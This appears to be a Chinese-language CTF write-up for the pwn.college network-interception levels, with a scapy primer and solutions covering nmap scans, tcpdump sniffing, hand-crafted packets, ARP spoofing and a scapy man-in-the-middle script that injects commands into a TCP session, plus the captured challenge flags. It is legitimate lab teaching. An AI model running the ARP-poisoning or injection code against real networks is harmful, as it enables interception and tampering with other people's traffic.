


Knowledge
这一部分是一个极简版的计算机网络的知识。
大概意思是你需要建立一个四层网络模型的概念，然后建立起每一层所使用的协议和数据包都是什么
从下往上依次是这样的：
HTTP---实现功能
TCP---识别进程
IP---识别主机
ARP(ETHER)---物理网卡
然后本部分就是研究以这些包为基础建立起的通讯的一些过程。
实用工具scapy
发包可以看这个
level14需要使用sniff
新增内容：关于scapy的使用，可以看《PYTHON渗透测试实战》一书，里面的讲解还算凑合（重点是面向不会英语的童鞋），同时，对于这一个模块来说，这本书的第一章有一个基础的讲解，可以有个简单的认识。有一门付费课程好像和这本书的内容差不多。
简介
Scapy使用了 类＋屈性” 的方法来构造数 据包，在Scapy中每一个网络协议就是一个类，协议中的字段就对应着屈性。只需要实例化一 个协议类， 就可以创建一个该协议类型的数据包。 例如我们要构造一个IP数据包， 可以使用 如下方式。
IP()
对于IP来说， 报应要的屈性就是源地址和目标地址， 这两个屈性在Scapy 中使用参数src和dst来设置。例如我们要构造一个发往 “ 192.168.1.101“ 的1P数据包， 就可 以使用以下语旬。
ip=IP(dst＝"192.168.1.101")
由于网络中协议数扯众多，因此 Scapy在内部实现了大械的网络协议(DNS、 ARP、IP、TCP、 UDP等）。 人类靠记忆来完成 这个工作是很难的。要想熟练地使用Scapy,大家需要掌握协议的一些基础知识。 另外Scapy也提供了一个可以便捷查看数据包格式的函数ls()，当你不了觥如何为一个IP数据包指定目标地址的时候，就可以使用下面的程序。
from scapy.all import IP,ls
pkt＝ IP()
ls(pkt)
会看到大概如下的结果
 Scapy采用分层的方式来构造数据包， 通常最底层的协议为Ether, 然后是IP, 再之后是TCP或者UDP。
Scapy采用分层的方式来构造数据包， 通常最底层的协议为Ether, 然后是IP, 再之后是TCP或者UDP。
分层是通过符号“/“实现的。如果一个数据包是由多层协议组合而成的，那么这些协议之间就可以使用”/“分开， 并按照协议由底而上的顺序从左向右排列。例如我们可以使用“Ether()/IP()/TCP()“来构造一个TCP数据包。
from scapy.all import＊
pkt=Ether()/IP()/TCP()
ls (pkt)
>>> ls(IP())
version : BitField (4 bits) = 4 ('4')
ihl : BitField (4 bits) = None ('None')
tos : XByteField = 0 ('0')
len : ShortField = None ('None')
id : ShortField = 1 ('1')
flags : FlagsField = <Flag 0 ()> ('<Flag 0 ()>')
frag : BitField (13 bits) = 0 ('0')
ttl : ByteField = 64 ('64')
proto : ByteEnumField = 0 ('0')
chksum : XShortField = None ('None')
src : SourceIPField = '127.0.0.1' ('None')
dst : DestIPField = '127.0.0.1' ('None')
options : PacketListField = [] ('[]')
可以使用lsc()来查看所有可用的函数
raw()可以以字节显示包的内容
>>> raw(IP())
b'E\x00\x00\x14\x00\x01\x00\x00@\x00|\xe7\x7f\x00\x00\x01\x7f\x00\x00\x01'
>>>
发包
send()函数和sendp()函数。这两个函数的区别在于send()函数是川来发送IP数据包的，而sendp()函数是用来发送Ether数据包的。 >注意，如果这个数据包发送成功，那么下方会有一个“Sent 1 packets“的显示
收
sr()函数是Scapy的核心， 它的返回值是两个列表， 第一个列表包含收到了应答的数据包 和对应的应答数据包，第二个列表包含未收到应答的数据包。所以可以使用两个列表来保存 srO函数的返回值。
>>> Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=get_if_hwaddr("eth0"), psrc="10.0.0.3", pdst="10.0.0.4")
<Ether dst=ff:ff:ff:ff:ff:ff type=ARP |<ARP op=who-has hwsrc=00:0c:29:34:25:34 psrc=10.0.0.3 pdst=10.0.0.4 |>>
>>> ans,nans=sr(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=get_if_hwaddr("eth0"), psrc="10.108.4.148", pdst="10.108.4.134"))
Begin emission:
WARNING: Mac address to reach destination not found. Using broadcast.
Finished sending 1 packets.
........................................................................ans.su..mmar..y........()...........
........................................................................................................................................................................^C
Received 263 packets, got 0 answers, remaining 1 packets
>>> ans,nans=sr(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=get_if_hwaddr("eth0"), psrc="10.108.4.148", pdst="10.108.4.138"))
Begin emission:
WARNING: Mac address to reach destination not found. Using broadcast.
Finished sending 1 packets.
........................................................................................................................................................................................................INFO: DNS RR prematured end (ofs=10, len=10)
.........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................INFO: DNS RR prematured end (ofs=10, len=10)
.....^C
Received 806 packets, got 0 answers, remaining 1 packets
>>> ans
<Results: TCP:0 UDP:0 ICMP:0 Other:0>
sniff
这个函数完整的格式为sniff(filter=“”,iface=“any”,pm=f1.mction,count=N)。第1个参数是filter, 可以用来对数据包进行过滤。 例如我们指定只捕获与192.168.1.］有关的数据包， 就可以使用 “host 192.168.1.1 “。
但是这种仅依靠IP地址来过滤的方法有很大的局限性，下面我们介绍一种功能更加完善的 方法。1993年，史蒂文·麦卡内CSteven McCanne)与范·雅各布森(Van Jacobson)在USENIX’93 会议上提出了一种机制一伯克利包过滤(Berkeley Packet Filter, BPF)，它采用了一种与自然语言很接近的语法， 利用这种语法构成的字符串可以确定保留哪些数据包以及忽略哪些数 据包。 这种语法很容易理解。例如最简单的空字符串，表示的就是匹配所有数据包，也就是保留 所有的数据包。如果这个字符串不为空，那么只有那些使字符串表达式值为 “真＂ 的数据包才 会被保留。这种字符串通常由一个或者多个原语所组成，每个原语又由一个标识符（名称或者 数字）组成， 后面跟着一个或者多个限定符。
第2个参数iface川来指定要使用的网卡， 默认为第一块网卡、
第3个参数prn表示对捕获到的数据包进行处理的函数
如果这个函数比较长，也可以定义成回调函数。这个回调函数以接收到的妏据包对象作为唯一的参数，然后再调用sniffi()函数
第4个参数count用来指定监听到数据包的数批， 达到指定的妏扒就会停止监听。例如我 们只希望监听到10个数据包就停止。
其他
tcpdump已经足够好用了，wireshark是更强大的图形化工具，只不过我连那个实验环境总是很卡，所以最后都采取命令行了。
WP
level1 Connect to a remote host
nc 10.0.0.3 31337
level2 Listen for a connection from a remote host
nc -l 31337
level3 Find and connect to a remote host
# 扫描端口nmap -p 31337 10.0.0.0/24
root@ip-10-0-0-2:~# nmap -p 31337 10.0.0.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-15 22:54 UTC
Nmap scan report for 10.0.0.47
Host is up (0.000090s latency).
PORT STATE SERVICE
31337/tcp open Elite
MAC Address: 1A:78:B6:5A:08:A8 (Unknown)
Nmap scan report for 10.0.0.2
Host is up (0.000058s latency).
PORT STATE SERVICE
31337/tcp closed Elite
Nmap done: 256 IP addresses (2 hosts up) scanned in 28.46 seconds
root@ip-10-0-0-2:~# nc 10.0.0.2 31337
root@ip-10-0-0-2:~# nc 10.0.0.47 31337
# 出现flag
level4 Find and connect to a remote host on a large network
root@ip-10-0-0-2:~# nmap -p 31337 -T5 10.0.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-15 23:44 UTC
Nmap scan report for 10.0.0.2
Host is up (0.000053s latency).
PORT STATE SERVICE
31337/tcp closed Elite
Nmap scan report for 10.0.211.92
Host is up (0.000093s latency).
PORT STATE SERVICE
31337/tcp open Elite
MAC Address: D6:5F:9A:28:AE:26 (Unknown)
Nmap done: 65536 IP addresses (2 hosts up) scanned in 2583.60 seconds
# 这个我没啥好办法，感觉时间很长啊。
nc 10.0.211.92 31337
level5 Monitor traffic from a remote host
tcpdump -i any port 31337
# 先这样看一下，发现包是重复的，其中有一个数据包长度为58，推测有用
tcpdump -i any port 31337 -X
# 这会输出具体的十六进制和ascii码
# 然后就得到了具体的包了
01:10:28.660067 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.50004: Flags [P.], seq 1:59, ack 60, win 509, options [nop,nop,TS val 4114781018 ecr 1191307187], length 58
0x0000: 4500 006e 4d18 4000 4006 d96d 0a00 0002 E..nM.@.@..m....
0x0010: 0a00 0003 7a69 c354 b6ab 89fa 61ea 4259 ....zi.T....a.BY
0x0020: 8018 01fd c37f 0000 0101 080a f542 935a .............B.Z
0x0030: 4701 e7b3 7077 6e2e 636f 6c6c 6567 657b G...pwn.college{
0x0040: 5934 4a50 5173 526d 4367 4e71 636a 6e69 Y4JPQsRmCgNqcjni
0x0050: 6532 3878 7775 4961 5755 4e2e 644e 6a4e e28xwuIaWUN.dNjN
0x0060: 7a4d 444c 3251 6a4d 794d 7a57 7d0a zMDL2QjMyMzW}.
level6 Monitor slow traffic from a remote host
# 老规矩先看一下
tcpdump -i any port 31337
# 这个题也比较水了，就是每个包只发送其中的一位，然后你等58个包，就凑齐了。
tcpdump -i any port 31337 and src 10.0.0.2 and dst 10.0.0.3 and greater 1 -X
然后输出大概是这样的
01:32:10.535829 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 5:6, ack 6, win 510, options [nop,nop,TS val 4116082894 ecr 1192609080], length 1
0x0000: 4500 0035 9482 4000 4006 923c 0a00 0002 E..5..@.@..<....
0x0010: 0a00 0003 7a69 c06a f4c7 a8af feb5 c987 ....zi.j........
0x0020: 8018 01fe eab4 0000 0101 080a f556 70ce .............Vp.
0x0030: 4715 c538 63 G..8c
01:32:11.537097 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 6:7, ack 7, win 510, options [nop,nop,TS val 4116083896 ecr 1192610081], length 1
0x0000: 4500 0035 9483 4000 4006 923b 0a00 0002 E..5..@.@..;....
0x0010: 0a00 0003 7a69 c06a f4c7 a8b0 feb5 c988 ....zi.j........
0x0020: 8018 01fe d6df 0000 0101 080a f556 74b8 .............Vt.
0x0030: 4715 c921 6f G..!o
01:32:12.538387 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 7:8, ack 8, win 510, options [nop,nop,TS val 4116084897 ecr 1192611083], length 1
0x0000: 4500 0035 9484 4000 4006 923a 0a00 0002 E..5..@.@..:....
0x0010: 0a00 0003 7a69 c06a f4c7 a8b1 feb5 c989 ....zi.j........
0x0020: 8018 01fe d20a 0000 0101 080a f556 78a1 .............Vx.
0x0030: 4715 cd0b 6c G...l
01:32:13.539649 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 8:9, ack 9, win 510, options [nop,nop,TS val 4116085898 ecr 1192612084], length 1
0x0000: 4500 0035 9485 4000 4006 9239 0a00 0002 E..5..@.@..9....
0x0010: 0a00 0003 7a69 c06a f4c7 a8b2 feb5 c98a ....zi.j........
0x0020: 8018 01fe ca36 0000 0101 080a f556 7c8a .....6.......V|.
0x0030: 4715 d0f4 6c G...l
01:32:14.540780 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 9:10, ack 10, win 510, options [nop,nop,TS val 4116086899 ecr 1192613085], length 1
0x0000: 4500 0035 9486 4000 4006 9238 0a00 0002 E..5..@.@..8....
0x0010: 0a00 0003 7a69 c06a f4c7 a8b3 feb5 c98b ....zi.j........
0x0020: 8018 01fe c962 0000 0101 080a f556 8073 .....b.......V.s
0x0030: 4715 d4dd 65 G...e
01:32:15.541382 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 10:11, ack 11, win 510, options [nop,nop,TS val 4116087900 ecr 1192614086], length 1
0x0000: 4500 0035 9487 4000 4006 9237 0a00 0002 E..5..@.@..7....
0x0010: 0a00 0003 7a69 c06a f4c7 a8b4 feb5 c98c ....zi.j........
0x0020: 8018 01fe bf8e 0000 0101 080a f556 845c .............V.\
0x0030: 4715 d8c6 67 G...g
01:32:16.542597 eth0 Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 11:12, ack 12, win 510, options [nop,nop,TS val 4116088901 ecr 1192615087], length 1
0x0000: 4500 0035 9488 4000 4006 9236 0a00 0002 E..5..@.@..6....
0x0010: 0a00 0003 7a69 c06a f4c7 a8b5 feb5 c98d ....zi.j........
0x0020: 8018 01fe b9ba 0000 0101 080a f556 8845 .............V.E
0x0030: 4715 dcaf 65 G...e
我们就把最后一位拼起来就行了，反正这一步大概有点儿烦，可以写脚本，也可以自己手动复制:(
# 好吧，我脚本没写对，自己手动复制的，尼玛
pwn.college{kNJHOFI1VRpp7QOATsbMSjGQiQp.dRjNzMDL2QjMyMzW}
level7 Hijack traffic from a remote host by configuring your network interface
tcpdump -i any
# 发现10.0.0.4一直在发送请求。这时候我骗它应该就行了。
ip addr add 10.0.0.2/8 dev eth0
然后发现了这些包
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
15:07:21.562729 eth0 B ARP, Request who-has 10.0.0.2 tell 10.0.0.4, length 28
15:07:21.562752 eth0 Out ARP, Reply 10.0.0.2 is-at fa:9a:ce:e8:ef:b2 (oui Unknown), length 28
15:07:21.562833 eth0 In IP 10.0.0.4.37984 > 10.0.0.2.31337: Flags [S], seq 1279607758, win 64240, options [mss 1460,sackOK,TS val 1986706165 ecr 0,nop,wscale 7], length 0
15:07:21.562843 eth0 Out IP 10.0.0.2.31337 > 10.0.0.4.37984: Flags [R.], seq 0, ack 1279607759, win 0, length 0
15:07:21.639815 lo In IP localhost.53883 > 127.0.0.11.domain: 51406+ PTR? 2.0.0.10.in-addr.arpa. (39)
15:07:21.639846 lo In IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.639911 lo In IP localhost.39242 > 127.0.0.11.domain: 51406+ PTR? 2.0.0.10.in-addr.arpa. (39)
15:07:21.639923 lo In IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.640042 lo In IP localhost.46035 > 127.0.0.11.domain: 13917+ PTR? 4.0.0.10.in-addr.arpa. (39)
15:07:21.640052 lo In IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.640103 lo In IP localhost.50224 > 127.0.0.11.domain: 13917+ PTR? 4.0.0.10.in-addr.arpa. (39)
这个R说明reset位： 表示TCP连接中出现异常必须强制断开连接。例如，一个没有被使用的端口即使发来了连接请求，也无法通信。
然后监听即可
nc -l 31337
这题看了讲解才会，就卡在不知道怎么看这个标志位上，果然知识处处是盲区
然后在你监听以后，就会变成PUSH标志位。
///@TODO: 关于后面的发包，我所有ARP啥的基本上都是发送的广播地址，讲解之中发送给特定地址，没有必要，而且由于我有的关卡住，如果发送给特定的物理网卡，我每次重开挑战都要重新查看，有点儿麻烦。
level8 Manually send an Ethernet packet
主要是使用scapy
>>> sendp(Ether(src="4a:b3:c7:c5:08:7d",dst="ff:ff:ff:ff:ff:ff",type=0xFFFF),iface="eth0")
.
Sent 1 packets.
pwn.college{wl9Wr84duLuF_XsCsoo6EiqhnU3.dZjNzMDL2QjMyMzW}
level9 Manually send an Internet Protocol packet
发IP了
>>> sendp(Ether(src="52:bc:a3:08:14:d1",dst="ff:ff:ff:ff:ff:ff", type=0x0800) / IP(proto=0xFF, src="127.0.0.1",dst="10.0.0.3"), iface="eth0")
.
Sent 1 packets.
pwn.college{c5HrfavanBMm_0po-E47NuCoY2J.ddjNzMDL2QjMyMzW}
level10 Manually send a Transmission Control Protocol packet
>>> sendp(Ether(src="12:af:41:92:01:6f",dst="ff:ff:ff:ff:ff:ff", type=0x0800) / IP(src="127.0.0.1", dst="10.0.0.3", proto=0x06) / TCP(sport=31337, dport=31337, seq=31337, ack=31337, flags="APRSF"),
...: iface="eth0")
.
Sent 1 packets.
pwn.college{gSJcnHgB4dNz17jCCuEduVjMEF_.dhjNzMDL2QjMyMzW}
level11 Manually perform a Transmission Control Protocol handshake
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="S"),iface="eth0")
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, ack=1235161237, seq=31338,flags="A"),iface="eth0")
pwn.college{cMG0JWm3rTQmJHtfC-JNorRv6Ef.dljNzMDL2QjMyMzW}
多么美妙的一张图 
level12 Manually send an Address Resolution Protocol packet
>>> sendp(Ether(dst="ff:ff:ff:ff:ff:ff", src=get_if_hwaddr("eth0")) / ARP(op="is-at", hwsrc=get_if_h
...: waddr("eth0"), psrc="10.0.0.2", hwdst="ff:ff:ff:ff:ff:ff", pdst="10.0.0.3"), iface="eth0")
.
Sent 1 packets.
pwn.college{0mowkGco5uatE6V9v8I1lPZ2xHa.dBzNzMDL2QjMyMzW}
level13 Hijack traffic from a remote host using ARP
先观察一波
root@ip-10-0-0-3:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
valid_lft forever preferred_lft forever
inet6 ::1/128 scope host
valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
link/ether e6:19:83:95:20:c7 brd ff:ff:ff:ff:ff:ff link-netnsid 0
inet 10.0.0.3/16 scope global eth0
valid_lft forever preferred_lft forever
inet6 fe80::e419:83ff:fe95:20c7/64 scope link
valid_lft forever preferred_lft forever
root@ip-10-0-0-3:~#
很尬，就自己瞎做把
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc="e6:19:83:95:20:c7", psrc="10.0.0.3", pdst="10.0.0.4")
remote_mac = arp_response[0][1].hwsrc

tcp_redirect = Ether(src=remote_mac, dst="e6:19:83:95:20:c7") / IP(src="10.0.0.4", dst="10.0.0.3") / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)

arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc="e6:19:83:95:20:c7", psrc="10.0.0.3", pdst="10.0.0.2")
remote_mac = arp_response[0][1].hwsrc

tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.4", dst=local_ip) / TCP(sport=31338, dport=31337, flags="PA", seq=123456, ack=0)
 看起来，又是建立链接？
看起来，又是建立链接？
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="A"),iface="eth0")
过程都写完了，可以写脚本了
from scapy.all import *
# 获取本地接口的 MAC 和 IP 地址
local_mac = get_if_hwaddr("eth0")
local_ip = get_if_addr("eth0")
# 构造 ARP 请求数据包，欺骗目标主机
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=local_mac, psrc=local_ip, pdst="10.0.0.4")
# 发送 ARP 请求数据包，并获取目标主机的 MAC 地址
arp_response = srp(arp_request, timeout=2, iface="eth0", verbose=False)[0]
remote_mac = arp_response[0][1].hwsrc
# 构造 TCP 重定向数据包，将流量重定向到本地主机
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.4", dst=local_ip) / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)
# 发送 TCP 重定向数据包，劫持流量
sendp(tcp_redirect, iface="eth0")
from scapy.all import *
# 获取本地接口的 MAC 和 IP 地址
local_mac = get_if_hwaddr("eth0")
local_ip = get_if_addr("eth0")
# 构造 ARP 请求数据包，欺骗目标主机
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=local_mac, psrc=local_ip, pdst="10.0.0.2")
# 发送 ARP 请求数据包，并获取目标主机的 MAC 地址
arp_response = srp(arp_request, timeout=2, iface="eth0", verbose=False)[0]
remote_mac = arp_response[0][1].hwsrc
# 构造 TCP 重定向数据包，将流量重定向到本地主机
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.2", dst=local_ip) / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)
# 发送 TCP 重定向数据包，劫持流量
sendp(tcp_redirect, iface="eth0")
好吧，整了一大堆，然后发现搞错了，没那么复杂，G。。。
正确解答如下：
root@ip-10-0-0-3:~# arping 10.0.0.4
ARPING 10.0.0.4
42 bytes from ce:b6:65:76:0a:83 (10.0.0.4): index=0 time=17.107 usec
42 bytes from ce:b6:65:76:0a:83 (10.0.0.4): index=1 time=13.761 usec
^C
--- 10.0.0.4 statistics ---
2 packets transmitted, 2 packets received, 0% unanswered (0 extra)
rtt min/avg/max/std-dev = 0.014/0.015/0.017/0.002 ms
root@ip-10-0-0-3:~#
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ce:b6:65:76:0a:83") / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),psrc="10.0.0.2",hwdst="ce:b6:65:76:0a:83",pdst="10.0.0.4"),iface="eth0")
pwn.college{cNTaa8AjxVE-lSXY9DgEeXxNMHz.dFzNzMDL2QjMyMzW}

level14 Man-in-the-middle traffic between two remote hosts and inject extra traffic
从讲解来看，这个题的核心是需要加入对话，而不仅仅是监听，因为对话中有一次性密钥，仅仅监听并不管用，重点是抓住窗口期发送包含有FLAG的包。
直接写个脚本
from scapy.all import *
sendp(Ether(src=get_if_hwaddr("eth0")) / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),
psrc="10.0.0.3",pdst="10.0.0.4"),iface="eth0") #tell 10.0.0.4，where 10.0.0.3 it is
sendp(Ether(src=get_if_hwaddr("eth0")) / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),
psrc="10.0.0.4",pdst="10.0.0.3"),iface="eth0") #tell 10.0.0.3，where 10.0.0.4 it is
packet_data = {
'key': '',
'dst': '',
'src': '',
'ipdst': '',
'ipsrc': '',
'ipflags': '',
'sport': 0,
'dport': 31337,
'flags': '',
'seq': 0,
'ack': 0
}
def CallBack(packet):
if packet.haslayer('TCP'):
tcp = packet['TCP']
ip = packet['IP']
ether = packet['Ethernet']
load = tcp.load if hasattr(tcp, 'load') else b''
if ip.src == '10.0.0.4' and load != b'ECHO\n':
packet_data['key'] = load
if ip.src == '10.0.0.3' and load == b'COMMANDS:\nECHO\nFLAG\nCOMMAND:\n':
print("WARNING!!")
packet_data.update({
'ipdst': ip.src,
'ipsrc': ip.dst,
'flags': 'PA',
'ipflags': ip.flags,
'dst': ether.src,
'src': ether.dst,
'dport': tcp.sport,
'sport': tcp.dport,
'seq': tcp.ack,
'ack': tcp.seq + 29
})
raw_pkt = Raw(load='FLAG\n')
(Ether(src=packet_data['src'], dst=packet_data['dst']) /
IP(src=packet_data['ipsrc'], dst=packet_data['ipdst'], flags=packet_data['ipflags']) /
TCP(dport=packet_data['dport'], sport=packet_data['sport'], seq=packet_data['seq'], ack=packet_data['ack'], flags=packet_data['flags']) /
raw_pkt).display()
sendp(Ether(src=packet_data['src'], dst=packet_data['dst']) /
IP(src=packet_data['ipsrc'], dst=packet_data['ipdst'], flags=packet_data['ipflags']) /
TCP(dport=packet_data['dport'], sport=packet_data['sport'], seq=packet_data['seq'], ack=packet_data['ack'], flags=packet_data['flags']) /
raw_pkt, iface="eth0")
sniff(filter="tcp", prn=CallBack, iface='eth0', count=100)
然后顺利拿到flag
pwn.college{A3pb7kfH8On2sOV2_hSlPGWG_P8.dJzNzMDL2QjMyMzW}
可以看这个视频讲解 
碎碎念：这个部分其实不太难，重点是学会scapy即可，但是诡异的地方在于必须使用tmux，好像这样才能在一个父线程之下，不然你在另一个shell里面使用python脚本，这个shell里面的tcpdump抓不到东西。这曾经困扰了我很久，别的就没啥了。